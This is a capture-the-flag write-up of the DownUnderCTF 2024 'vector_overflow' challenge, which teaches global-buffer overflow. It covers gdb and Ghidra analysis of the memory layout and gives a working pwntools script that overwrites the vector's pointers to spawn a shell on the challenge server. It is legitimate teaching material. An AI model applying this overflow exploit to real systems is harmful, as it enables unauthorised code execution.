


## Prologue

Difficulty: beginner

Category: binary exploitation

Solved: 239

!!! quote "Description"
    Please overflow into the vector and control it!

Input files:

??? info "vector_overflow.c"
    ```c
    #include <cstdlib>
    #include <iostream>
    #include <string>
    #include <vector>
    
    char buf[16];
    std::vector<char> v = {'X', 'X', 'X', 'X', 'X'};
    
    void lose() {
        puts("Bye!");
        exit(1);
    }
    
    void win() {
        system("/bin/sh");
        exit(0);
    }
    
    int main() {
        char ductf[6] = "DUCTF";
        char* d = ductf;
    
        std::cin >> buf;
        if(v.size() == 5) {
            for(auto &c : v) {
                if(c != *d++) {
                    lose();
                }
            }
    
            win();
        }
    
        lose();
    }
    ```

* [vector_overflow binary](https://github.com/DownUnderCTF/Challenges_2024_Public/blob/f2797a33d8f5851508f37e854afceedf85eee8a3/beginner/vector-overflow/src/vector_overflow)

NB:


* Following indices bases system is used to avoid ambiguity. Whenever element of a collection is referenced by **number**, 0-based index implied. 
 
  Ie, element `0` of list `[1, 2, 4, 8, 16]` is `1`, Element `3` is `8`.
  
  When element is reference in explanation with **word** (first, third...), 1-based system is implied.

  Ie, first character of string `Hello World!` is `H`, fifth is `o`.

* Solution code was redacted for readability purposes. Due to time pressure during the competition I was using a lot of one-letter variables and questionable code structure.
* I am using gdb with [pwndbg](https://github.com/pwndbg/pwndbg) plugin

## My struggle

### Analysis 

This is one of the most straightforward challenges that is a good introduction to binary exploitation.

First review source code to understand what the program intends to do and where is vulnerability we can target:

```c title="trimmed source code with explanaition"
char buf[16];
std::vector<char> v = {'X', 'X', 'X', 'X', 'X'};

int main() {
    char ductf[6] = "DUCTF"; // initializes ductf to string "DUCTF"
    char* d = ductf;

    std::cin >> buf; // read user input into global variable buf
    // compare variable ductf with global variable v,
    // if they are equal, execute win()
    // otherwise execute lose() 
    if(v.size() == 5) { 
        for(auto &c : v) {
            if(c != *d++) {
                lose();
            }
        }

        win();
    }

    lose();
}
```

So, in order to execute `win()` we should change variable v to be `DUCTF`, notice how global variables are next to each other?
`v` is declared right after `buf`, this means that there is a good chance that in memory they also will be placed sequentially
one after another.

We can test this theory and find locations of global variables by inspecting the binary. First, lets check its general information:
```bash
$ file vector_overflow
  vector_overflow: ELF 64-bit LSB executable,
  x86-64,  #  64-bit executable  
  version 1 (SYSV),
  dynamically linked,
  interpreter /lib64/ld-linux-x86-64.so.2,
  BuildID[sha1]=4a0b824c662ee47b5cd3e73176c0092f1fcf714b,
  for GNU/Linux 3.2.0,
  not stripped # symbols are not stripped
```

There are two tools we can use find locations of variable:

1. open the binary in [ghidra](https://ghidra-sre.org/)
   * given symbols are not stripped, we can search them by name:
     
     
     On the image:
   
     - 1 search for variable `buf` in symbol tree
     - 2 select it in the list
     - 3 once selected the main view show address of the variable `004051e0`
     - 4 ghidra also annotates variable names in the main view we can see both `buf` and `v` right after it( address `004051f0`)
   
   * second option to find out address with ghidra is through assembly (this works even if binary symbols are stripped):
     
     
     On the image:
   
     - 1 go to function `main` (ghidra usually detects it automatically, sometimes depending of source language
        it can be called `entry` or have a standard language wrapper)
     - 2 find `call` to `operator>>` on `std::cin`
     - 3 work up from `call` and check how registers initialised before the call, we can see RSI is initialised with address
        to a global variable `buf` (if there would be no symbols we would see `DATA_004051e0` instead of `buf` which doesn't change much).
        Similarly, we could find below in assembly access to another global variable (`v` or `DATA_004051f0`) when comparing of content happens.

2. Launch the binary in gdb and inspect memory
  * find variables by name
   ```bash
   $ gdb ./vector_overflow
   (gdb) b main # breakpoint at main function
   (gdb) r # run executable till it hits breakpoint
   (gdb) p &buf # check address of variable buf
   $1 = (<data variable, no debug info> *) 0x4051e0 <buf>
   (gdb) p &v # check address of variable v
   $2 = (<data variable, no debug info> *) 0x4051f0 <v>
   ```
  
  * inspect memory
  ```bash
   $ gdb ./vector_overflow
   (gdb) b main # breakpoint at main function
   (gdb) r # run executable till it hits breakpoint
   (gdb) # step with `ci` through the code till we will be asked to enter input
   myteststring # our input that saved into buffer
   (gdb) search myteststring # scan memory where our string was saved (requires pwndbg plugin)
     Searching for value: 'myteststring'
     vector_overflow 0x4051e0 'myteststring' # found our global variable at address 0x4051e0
     [heap]          0x4182d0 'myteststring\n'
   (gdb) x/16c 0x4051e0 # read 16 characters from address 0x4051e0 (remember type of variable buf is char[16])
     0x4051e0:	'm' 'y' 't' 'e' 's' 't' 's' 't' 'r' 'i' 'n' 'g' '0' '0' '0' '0'
   (gdb) x/2gx 0x4051f0+16 # read two giant (8byte) numbers in hex format starting after buf ends
     0x4051f0 <v>:   0x00000000004182b0      0x00000000004182b5 # vector in represented in memory as two consecutive pointers to start and end of content
   (gdb) print 0x00000000004182b5 - 0x00000000004182b0         # we can check length is 5
    $3 = 5
   (gdb) x/5c 0x00000000004182b0 # read 5 characters from the start of the vector data
     0x4182b0:       88 'X'  88 'X'  88 'X'  88 'X'  88 'X' # 88 is ascii value of 'X' (remember in source code we have `vector v = {'X', 'X', 'X', 'X', 'X'})
  ```

### Exploit 

So, given program reads as much data as we provide, we are not limited to 16 characters, we can overflow into `v` and change vector
to `DUCTF`. To reiterate this is memory layout that we normally have (see `analysis` section above for more detailed explanation of each element):
```bash
(gdb) x/32bx 0x4051e0 # read 32 bytes at buf address
0x4051e0 <buf>: 0x6d    0x79    0x74    0x65    0x73    0x74    0x73    0x74 # start of buf ascii of myteststring
0x4051e8 <buf+8>:       0x72    0x69    0x6e    0x67    0x00    0x00    0x00    0x00
0x4051f0 <v>:   0xb0    0x82    0x41    0x00    0x00    0x00    0x00    0x00 # start of variable v first 8 bytes is pointer to start of content of the vector 
0x4051f8 <v+8>: 0xb5    0x82    0x41    0x00    0x00    0x00    0x00    0x00 # second pointer of v points to end of content of the vector
```

Note that pointer addresses that we saw before (0x00000000004182b0, 0x00000000004182b5) are written in little endian format (reversed of
what we used to). For example value `0x0055000004000201` is stored as `0x01 0x02 0x00 0x04 0x00 0x00 0x55 0x00` in memory.

Our goal is to achieve following memory state:
```bash
(gdb) x/32bx 0x4051e0 # read 32 bytes at buf address
0x4051e0 <buf>:   'D'    'U'    'C'    'T'    'F'    0x00    0x00    0x00 # start out input with DUCTF
0x4051e8 <buf+8>: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00 # rest of the buffer is not important
0x4051f0 <v>:     0xe0    0x51    0x40    0x00    0x00    0x00    0x00    0x00 # first pointer of v should point to DUCTF that we entered above
0x4051f8 <v+8>:   0xe5    0x51    0x40    0x00    0x00    0x00    0x00    0x00 # second pointer of v should point to end string DUCTF
```

If all required bytes were ascii printable it would be easy to enter them manually, but they don't so I used  [pwntools](https://github.com/Gallopsled/pwntools).
This is CTF framework for binary exploitation, its only "disadvantage" is it has all features you can think of, so it can be overwhelming sometimes.

=== "python script"
    ```py
    paylod = flat(
        b'DUCTF\x00',
        '\x00' * 10,
        pack(0x4051e0),
        pack(0x4051e0 + 5)
    )
    print(hexdump(paylod))
    ```

=== "output"
    ```txt linenums="0"
    00000000  44 55 43 54  46 00 00 00  00 00 00 00  00 00 00 00  │DUCT│F···│····│····│
    00000010  e0 51 40 00  00 00 00 00  e5 51 40 00  00 00 00 00  │·Q@·│····│·Q@·│····│
    ```

Full script to launch binary (or connect to CTF server if REMOTE param provided) and send the payload:

??? success "solve.py"
    ```py
    from pwn import *
    
    # initialize library to work with binary
    context.binary = elfexe = ELF('./vector_overflow') 
    libc = elfexe.libc
    
    context.log_level = 'warn'
    
    arguments = []
    if args['REMOTE']: # if REMOTE argument provided, connect to the challenge server, otherwise launch binary locally
        remote_server = '2024.ductf.dev'
        remote_port = 30013
        io = remote(remote_server, remote_port)
    else:
        io = start(arguments)
    
    paylod = flat(  # build payload
        b'DUCTF\x00',
        '\x00' * 10,
        pack(0x4051e0),
        pack(0x4051e0 + 5)
    )
    io.sendline(paylod) # send to server/binary
    
    io.interactive() # switch to interactive mode when you got the shell, you can now use `ls`, `cat flag.txt`
    io.close()
    ```


## Epilogue

* Official website: [https://downunderctf.com/](https://downunderctf.com/)
* Official writeups: https://github.com/DownUnderCTF/Challenges_2024_Public

*[RSI]: general purpose register on x86_64 architecture
